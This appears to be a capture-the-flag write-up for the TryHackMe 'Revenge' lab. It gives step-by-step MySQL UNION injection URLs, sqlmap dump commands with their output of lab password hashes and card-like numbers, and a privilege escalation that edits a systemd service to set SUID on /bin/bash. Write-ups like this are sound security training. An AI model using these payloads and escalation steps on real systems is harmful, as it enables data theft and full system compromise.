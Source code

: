 # 42 - Revenge (MySQL Injection)

Room Link --> [https://tryhackme.com/room/revenge](https://tryhackme.com/room/revenge)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
```
{% endcode %}

After Navigating round the entire page, there is a `/products` page that is vulnerable to SQL injection.

If you navigate to a page that dosen't exist, it displays an error.&#x20;

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Number of Columns

`http://10.10.157.23/products/5 UNION SELECT 1,2,3,4,5,6,7,8-- -` - there are 8 columns, if you enter `9` you get an error, and again we see that both columns 8 and 2 are visible so we can output our queries from either of them.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Current User of the DB

`http://10.10.157.23/products/5%20UNION%20SELECT%201,current_user(),3,4,5,6,7,8`

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Its the root user.

### Schema/DB Name

`http://10.10.157.23/products/5%20UNION%20SELECT%201,database(),3,4,5,6,7,8`&#x20;

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Or we can do the below to dump all schemas/dbs**

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(schema_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.SCHEMATA` - or we can use the "JSON\_ARRAYAGG" with the "CONCAT" function to view all DB/Schema names.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Table Name

`http://10.10.157.23/products/5 UNION SELECT 1,CONCAT(table_name),3,4,5,6,7,8 from information_schema.tables where table_schema="duckyinc"` -&#x20;

Table name is --> product

**Or we can do the below to dump all tables in the "duckyinc" schema/db**

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(table_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema="duckyinc"`&#x20;

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Columns in Table

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(column_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="product"`&#x20;

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now:

Under the \`system\_user" Table, these are the columns:

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(column_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="system_user"` .

{% code lineNumbers="true" %}
```bash
["id", "username", "_password", "email"]
```
{% endcode %}

Under the "user" Table, there are many columns here:

`http://10.10.157.23/products/5 UNION SELECT 13,CONCAT(JSON_ARRAYAGG(column_name)),13,13,13,13,13,13 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name="system_user"` .

{% code overflow="wrap" lineNumbers="true" %}
```bash
["id", "username", "_password", "credit_card", "email", "company", "Host", "User", "Select_priv", "Insert_priv", "Update_priv", "Delete_priv", "Create_priv", "Drop_priv", "Reload_priv", "Shutdown_priv", "Process_priv", "File_priv", "Grant_priv", "References_priv", "Index_priv", "Alter_priv", "Show_db_priv", "Super_priv", "Create_tmp_table_priv", "Lock_tables_priv", "Execute_priv", "Repl_slave_priv", "Repl_client_priv", "Create_view_priv", "Show_view_priv", "Create_routine_priv", "Alter_routine_priv", "Create_user_priv", "Event_priv", "Trigger_priv", "Create_tablespace_priv", "ssl_type", "ssl_cipher", "x509_issuer", "x509_subject", "max_questions", "max_updates", "max_connections", "max_user_connections", "plugin", "authentication_string", "password_expired", "password_last_changed", "password_lifetime", "account_locked"]
```
{% endcode %}

But the "username, password, creditcard" are what we need to check out.

### Dump Data

We can use the `LIMIT` statement to view all the data one by one.

**1st row**

`http://10.10.157.23/products/5 UNION SELECT 1,CONCAT(id,"-",username,"-",_password,"-",email),3,4,5,6,7,8 FROM system_user LIMIT 0,1` .

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**2nd row**

`http://10.10.157.23/products/5 UNION SELECT 1,CONCAT(id,"-",username,"-",_password,"-",email),3,4,5,6,7,8 FROM system_user LIMIT 1,1`

<figure><img src=".gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code lineNumbers="true" %}
```bash
1-server-admin-$2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a-sadmin@duckyinc.org
2-kmotley-$2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa-kmotley@duckyinc.org
3-dhughes-$2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK-dhughes@duckyinc.org

```
{% endcode %}

### Using Sqlmap

{% code lineNumbers="true" %}
```bash
# dump the dbs/schemas
sqlmap 10.10.157.23/products/1 --batch --dbs

# dump tables for the "duckyinc" schema/db.
sqlmap 10.10.157.23/products/1 --batch -D duckyinc --tables

# dump the data.
sqlmap 10.10.157.23/products/1 --batch -D duckyinc -T user --dump


# output
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| id | email                           | company          | username | _password                                                    | credit_card                |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| 1  | sales@fakeinc.org               | Fake Inc         | jhenry   | $2a$12$dAV7fq4KIUyUEOALi8P2dOuXRj5ptOoeRtYLHS85vd/SBDv.tYXOa | 4338736490565706           |
| 2  | accountspayable@ecorp.org       | Evil Corp        | smonroe  | $2a$12$6KhFSANS9cF6riOw5C66nerchvkU9AHLVk7I8fKmBkh6P/rPGmanm | 355219744086163            |
| 3  | accounts.payable@mcdoonalds.org | McDoonalds Inc   | dross    | $2a$12$9VmMpa8FufYHT1KNvjB1HuQm9LF8EX.KkDwh9VRDb5hMk3eXNRC4C | 349789518019219            |
| 4  | sales@ABC.com                   | ABC Corp         | ngross   | $2a$12$LMWOgC37PCtG7BrcbZpddOGquZPyrRBo5XjQUIVVAlIKFHMysV9EO | 4499108649937274           |
| 5  | sales@threebelow.com            | Three Below      | jlawlor  | $2a$12$hEg5iGFZSsec643AOjV5zellkzprMQxgdh1grCW3SMG9qV9CKzyRu | 4563593127115348           |
| 6  | ap@krasco.org                   | Krasco Org       | mandrews | $2a$12$reNFrUWe4taGXZNdHAhRme6UR2uX..t/XCR6UnzTK6sh1UhREd1rC | thm{br3ak1ng_4nd_3nt3r1ng} |
| 7  | payable@wallyworld.com          | Wally World Corp | dgorman  | $2a$12$8IlMgC9UoN0mUmdrS3b3KO0gLexfZ1WvA86San/YRODIbC8UGinNm | 4905698211632780           |
| 8  | payables@orlando.gov            | Orlando City     | mbutts   | $2a$12$dmdKBc/0yxD9h81ziGHW4e5cYhsAiU4nCADuN0tCE8PaEv51oHWbS | 4690248976187759           |
| 9  | sales@dollatwee.com             | Dolla Twee       | hmontana | $2a$12$q6Ba.wuGpch1SnZvEJ1JDethQaMwUyTHkR0pNtyTW6anur.3.0cem | 375019041714434            |
| 10 | sales@ofamdollar                | O!  Fam Dollar   | csmith   | $2a$12$gxC7HlIWxMKTLGexTq8cn.nNnUaYKUpI91QaqQ/E29vtwlwyvXe36 | 364774395134471            |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>The flag is also here.</p></figcaption></figure>

### Initial Access

#### Moving forward to Cracking the hashes.

<figure><img src=".gitbook/assets/image (284).png" alt=""><figcaption></figcaption></figure>

The password for the `server-admin` was cracked successfully.

<figure><img src=".gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

`sudo -l` .

<figure><img src=".gitbook/assets/image (285).png" alt=""><figcaption></figcaption></figure>

We can modify the "duckyinc.service" file as root.

We can modify this service to our own vulnerable version which will give us a root shell. This will give `/bin/bash` a SUID bit set.

```bash
# edit the service file to:
[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod +s /bin/bash"

[Install]
WantedBy=multi-user.target

# after editing the file.
server-admin@duckyinc:~$ sudo -u root /bin/systemctl daemon-reload
server-admin@duckyinc:~$ sudo -u root /bin/systemctl restart duckyinc.service
server-admin@duckyinc:~$ ls -l /bin/bash 
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

<figure><img src=".gitbook/assets/image (286).png" alt=""><figcaption></figcaption></figure>

And we are root:

<figure><img src=".gitbook/assets/image (287).png" alt=""><figcaption></figcaption></figure>

But if we see, we do not have the root flag in `/root` directory. We know from the note we got that we need to deface the front page in order to complete the challenge.

If we check the root dir, we can see a `.vininfo` file, making reference to a `/var/www/duckyinc/templates/index.html` - this is the index page of the company website.

```
nano /var/www/duckyinc/templates/index.html
```

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-qYnnkX3DZIE/X6_mk-ogPfI/AAAAAAAAqqM/627nZBkUVp8n9p-_OWj3vwM7W2xwa5tKACLcBGAsYHQ/s16000/16.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

We list the directory again and now we can read the last flag.

<figure><img src=".gitbook/assets/image (288).png" alt=""><figcaption></figcaption></figure>

Done!


